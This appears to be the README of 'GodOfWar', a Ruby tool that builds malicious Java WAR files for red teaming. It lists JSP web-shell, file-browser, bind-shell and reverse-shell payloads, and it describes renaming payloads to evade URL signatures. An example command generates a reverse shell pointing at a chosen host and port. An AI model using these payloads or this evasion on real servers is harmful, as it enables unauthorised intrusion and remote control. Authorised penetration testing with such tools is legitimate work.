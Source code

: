 # GodOfWar - Malicious Java WAR builder
A command-line tool to generate war payloads for penetration testing / red teaming purposes, written in ruby.

```
                              .
                             hhh              
                            hhhhhhh           
                           hhhhhhhh        
                          hhhhhhhh+        
                         hhhhhhhh'           
                        hhhhhhhh.            
                       hhhhhhhhh             
        ..--          hhhhhhhhh             
      -sh/..  +.     hhhhhhhhh:              
      /+/:-/+ss-`   hhhhhhhhhh:               
      /MMM`ss:``.`  hhhhhhhhhh:              
     .MMMMM:        hhhhhhhhhhhhhhhhh:       
     MMMMMMM:        hhhhhhhhhhhhhhhh:      
     MMMMMMMMMMMMM:  hhhhhhhhhhhhhhhh`       
    :NNm:odh/oMMMNs. hhhhhhhhhhhhhhhh`       
   ./:`smdo+oos++-    `++sNMMMMMNmh+         
      .-y-`     ` :.  /   -dmddhhhhh-        
       o/-     `//o/ /M/   `+hhhhhhhh`       
      /o     :yosmy   +y  .`.hhhhhhhho       
      +`     /../.:      `.y::hhhhhs:`       
       `      `+yys`   .sy` /oohhy:          
                `/:s/-``     `.hh`           
               ..`     `       y+            
            .hNNmmNdymmmmds`   :-            
            hs.   ``..    :y-  `             
               -hhmNmddm+   .                
               `NMMMMMMm                     
                ` `oMMy                      
            `.     /Md-      :o  
           MMMMMMMMMMMMMMMMMMM:             
            MMMMMMMMMMMMMMMMMM:              
             MMMMMMMMMMMMMMMMM               
              MMMMMMMMMMMMMMM.               
              `MMMMMMMMMMMMM.                 
                :sNMMMNMdo:                  
                  ``+m:/-                    
                     `                                  
GodOfWar - Malicious Java WAR builder.
```

## Features

- Preexisting payloads. (try `-l/--list`)
    - cmd_get
    - filebrowser
    - bind_shell
    - reverse_shell_ui 
- Configurable backdoor. (try `--host/-port`)
- Control over payload name. 
  - To avoid malicious name after deployment to bypass URL name signatures.

## Installation

```
$ gem install godofwar
```

## Usage
```
$ godofwar -h 

Help menu:
   -p, --payload PAYLOAD            Generates war from one of the available payloads.
                                        (check -l/--list)
   -H, --host IP_ADDR               Local or Remote IP address for the chosen payload
                                        (used with -p/--payload)
   -P, --port PORT                  Local or Remote Port for the chosen payload
                                        (used with -p/--payload)
   -o, --output [FILE]              Output file and the deployment name.
                                        (default is the payload original name. check '-l/--list')
   -l, --list                       list all available payloads.
   -h, --help                       Show this help message.
```

### Example 

**List all payloads**
```
$ godofwar -l
├── cmd_get
│   └── Information:
│       ├── Description: Command execution via web interface
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/cmd.jsp?cmd=whoami
│       ├── References:  ["https://github.com/danielmiessler/SecLists/tree/master/Payloads/laudanum-0.8/jsp"]
│       └── Local Path:  /FULL/PATH/HERE/godofwar/payloads/cmd_get
├── filebrowser
│   └── Information:
│       ├── Description: Remote file browser, upload, download, unzip files and native command execution
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/filebrowser.jsp
│       ├── References:  ["http://www.vonloesch.de/filebrowser.html"]
│       └── Local Path:  /FULL/PATH/HERE/godofwar/payloads/filebrowser
├── bind_shell
│   └── Information:
│       ├── Description: TCP bind shell
│       ├── OS:          any
│       ├── Settings:    {"port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse-shell.jsp
│       ├── References:  ["Metasploit - msfvenom -p java/jsp_shell_bind_tcp"]
│       └── Local Path:  /FULL/PATH/HERE/godofwar/payloads/bind_shell
├── reverse_shell_ui
│   └── Information:
│       ├── Description: TCP reverse shell with a UI to set LHOST and LPORT from browser.
│       ├── OS:          windows
│       ├── Settings:    {"host"=>"attacker", "port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse_shell_ui.jsp
│       ├── References:  []
│       └── Local Path:  /FULL/PATH/HERE/godofwar/payloads/reverse_shell_ui
```

**Generate payload with LHOST and LPORT**
```
godofwar -p reverse_shell_ui -H 192.168.100.10  -P 9911 -o puppy
```

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/[USERNAME]/godofwar.


## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

